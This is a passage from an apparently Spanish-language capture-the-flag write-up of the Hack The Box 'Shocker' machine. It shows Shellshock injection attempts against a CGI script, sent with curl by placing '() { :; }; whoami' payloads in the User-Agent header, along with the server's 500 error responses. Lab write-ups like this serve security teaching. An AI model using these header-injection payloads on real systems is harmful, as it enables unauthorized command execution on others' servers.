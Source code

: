 Encontramos un recurso llamado `user.sh`, así que vamos a echarle un ojito.

![](/assets/images/htb-shocker/shocker-web1.png)

A este punto, ya debemos estar pensando en el ataque [***ShellSock***](https://es.wikipedia.org/wiki/Shellshock_(error_de_software)), así que vamos a tratar de explotarlo mediante la herramienta `curl`:

```bash
❯ curl -H "User-Agent: () { :; }; whoami" http://10.10.10.56/cgi-bin/user.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>
```

Vemos que nos manda un código de estado 500 *Internal Server Error*, vamos a tratar de poner el comando bajo la ruta absoluta:

```bash
❯ curl -H "User-Agent: () { :; }; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>
```
